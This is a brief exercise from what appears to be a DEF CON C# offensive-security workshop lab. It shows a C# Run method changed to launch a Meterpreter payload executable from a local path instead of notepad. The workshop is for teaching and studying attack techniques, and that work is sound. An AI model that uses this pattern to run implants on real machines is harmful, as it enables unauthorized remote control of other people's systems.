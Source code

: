 ## Lab 3

### Exercise 2:

*Modify the run Method, pointing the process to start meterpreter payload used in Lab 2:
  public static void Run()
    {
        //Process.Start("notepad.exe");
        Process.Start("C:\\Users\\User\\Desktop\\defcon27_csharp_workshop-master\\Labs\\lab2\\2.exe");
		Console.ReadKey();
    }
